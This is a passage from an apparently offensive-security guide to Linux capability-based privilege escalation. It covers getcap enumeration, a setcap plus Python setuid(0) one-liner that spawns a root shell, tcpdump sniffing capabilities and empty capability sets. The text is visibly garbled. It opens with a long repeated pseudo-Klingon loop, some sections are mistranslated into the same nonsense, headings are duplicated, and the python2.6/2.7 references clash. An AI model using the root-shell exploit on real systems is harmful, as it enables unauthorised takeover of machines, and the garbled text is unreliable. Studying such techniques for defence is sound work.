 vItlhutlh'e' 'e' vItlhutlh'e' 'e' vItlhutlh'e' 'e' vItlhutlh'e' 'e' vItlhutlh'e' 'e' vItlhutlh'e' 'e' vItlhutlh'e' 'e' vItlhutlh'e' 'e' vItlhutlh'e' 'e' vItlhutlh'e' 'e' vItlhutlh'e' 'e' vItlhutlh'e' 'e' vItlhutlh'e' 'e' vItlhutlh'e' 'e' vItlhutlh'e' 'e' vItlhutlh'e' 'e' vItlhutlh'e' 'e' vItlhutlh'e' 'e' vItlhutlh'e' 'e' vItlhutlh'e' 'e' vItlhutlh'e' 'e' vItlhutlh'e' 'e' vItlhutlh'e' 'e' vItlhutlh'e' 'e' vItlhutlh'e' 'e' vItlhutlh'e' 'e' vItlhutlh'e' 'e' vItlhutlh'e' 'e' vItlhutlh'e' 'e' vItlhutlh'e' 'e' vItlhutlh'e' 'e' vItlhutlh'e' 'e' vItlhutlh'e' 'e' vItlhutlh'e' 'e' vItlhutlh'e' 'e' vItlhutlh'e' 'e' vItlhutlh'e' 'e' vItlh
```bash
getcap -r / 2>/dev/null
```
### Exploitation example

In the following example the binary `/usr/bin/python2.6` is found vulnerable to privesc:

### qawHaq

vaj 'ejwI' `/usr/bin/python2.6` binary 'e' vItlhutlh.
```bash
setcap cap_setuid+ep /usr/bin/python2.7
/usr/bin/python2.7 = cap_setuid+ep

#Exploit
/usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash");'
```
**Capabilities** needed by `tcpdump` to **allow any user to sniff packets**:

**Capabilities** needed by `tcpdump` to **allow any user to sniff packets**:

```bash
$ getcap /usr/sbin/tcpdump
/usr/sbin/tcpdump = cap_net_admin,cap_net_raw+eip
```

In this case, `tcpdump` requires two capabilities: `cap_net_admin` and `cap_net_raw`. These capabilities allow the user to perform network-related tasks, such as capturing packets. The `+eip` flag indicates that the capabilities are effective, inheritable, and permitted. By granting these capabilities to `tcpdump`, any user will be able to use the tool to sniff packets.
```bash
setcap cap_net_raw,cap_net_admin=eip /usr/sbin/tcpdump
getcap /usr/sbin/tcpdump
/usr/sbin/tcpdump = cap_net_admin,cap_net_raw+eip
```
### "empty" capabilities-ghItlh

[From the docs](https://man7.org/linux/man-pages/man7/capabilities.7.html): Note that one can assign empty capability sets to a program file, and thus it is possible to create a set-user-ID-root program that changes the effective and saved set-user-ID of the process that executes the program to 0, but confers no capabilities to that process. Or, simply put, if you have a binary that:

1. is not owned by root
2. has no `SUID`/`SGID` bits set
3. has empty capabilities set (e.g.: `getcap myelf` returns `myelf =ep`)

then **that binary will run as root**.
